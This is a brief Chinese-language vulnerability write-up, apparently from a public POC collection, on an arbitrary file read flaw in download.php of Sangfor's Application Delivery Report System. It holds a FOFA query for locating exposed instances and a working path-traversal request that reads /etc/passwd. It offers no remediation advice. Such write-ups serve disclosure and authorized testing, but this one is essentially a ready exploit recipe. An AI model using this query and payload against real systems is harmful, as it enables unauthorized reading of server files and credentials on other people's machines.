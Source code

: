 # 深信服 应用交付报表系统 download.php 任意文件读取漏洞

## 漏洞描述

深信服 应用交付报表系统 download.php文件存在任意文件读取漏洞，攻击者通过漏洞可以下载服务器任意文件

## 漏洞影响

```
深信服 应用交付报表系统
```

## FOFA

```
app="SANGFOR-应用交付报表系统"
```

## 漏洞复现

登录页面

![image-20220525144847811](./images/202205251448956.png)

验证POC

```
/report/download.php?pdf=../../../../../etc/passwd
```

![image-20220525144958637](./images/202205251449708.png)